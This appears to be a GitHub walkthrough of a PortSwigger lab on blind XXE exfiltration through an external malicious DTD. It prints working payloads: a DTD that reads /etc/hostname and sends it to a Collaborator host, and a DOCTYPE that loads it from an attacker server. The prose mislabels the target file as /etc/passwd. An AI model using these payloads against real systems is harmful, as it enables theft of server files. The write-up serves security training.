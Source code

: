 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7ac3d0f2-66e3-4016-b19b-ed3298d5a8ae)

## Overview :

It involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the /etc/passwd file is as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request
to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```xml
http://web-attacker.com/malicious.dtd
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server. 

> In some cases, when performing a blind XXE (XML External Entity) attack to retrieve data from the /etc/passwd file, **only a single line of the file may be 
  obtained in the response**. 
>
> The limited response that you observe could occur due to the way the application processes the XML and constructs the response. It might be **designed to 
  include only a single line of the file**, truncating the content to prevent the disclosure of sensitive information.

For this we can use an FTP server to get all the contents of the file .
> **FTP sever tool - https://github.com/lc/230-OOB**

## Solution :

Clicking on checkstock feature , browser sends the following request.

```xml
POST /product/stock HTTP/2
Host: 0a5c0075035d3461824ebb3700d50033.web-security-academy.net
Cookie: session=2K3jJ6C0GNurtpvuyrqmYZYeIU1ITlX1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5c0075035d3461824ebb3700d50033.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a5c0075035d3461824ebb3700d50033.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

In order to solve the lab, we need to make the application to fetch our malicious DTD file with the payload to  retreive `/etc/hostname` & then send the exfiltrated data back to our server.

#### Steps -

1. The application parses the XML entitiy & tries to fetch the malicious DTD hosted at exploit server
2. Payload of exploit server gets executed. Means the application retreives the `/etc/hostname` of the vulnerable server.
3. THe vulnerable server now sends the exfiltrated data back to our collaborator server.

#### Craft the payload

In the request to check the stock, we can  insert the following external entity definition in between the XML declaration and the stockCheck element: 

```xml

<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE example [<!ENTITY % xxe SYSTEM "http://exploit-0a1800a6032c20998658e88b0120001e.exploit-server.net/exploit"> %xxe;]>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Create a malicious DTD -

On the exploit server create a malicious DTD file with the following contents,

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
Host this `malicious.dtd` file in our exploit server.

> NOTE- We need to send the exfiltrated data (**/etc/hostname**) back to our collaborator server. So provide colab server's address.

When we send the request, we get a response stating that - `XML parsing error`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/598b1687-ab63-4964-a5b3-2c4edee76c3e)

But if we check our collaborator server, we can see that few HTTP & DNS requests were made. The HTTP request made to our server contains the output of our payload in the GET request header .

`/etc/hostname` - `6837f702d700`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/19dc61a2-651c-4030-a810-80b0b608af0b)

Submit the hostname to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c4f4f951-6cf9-445c-8ea3-772ac924e75b)

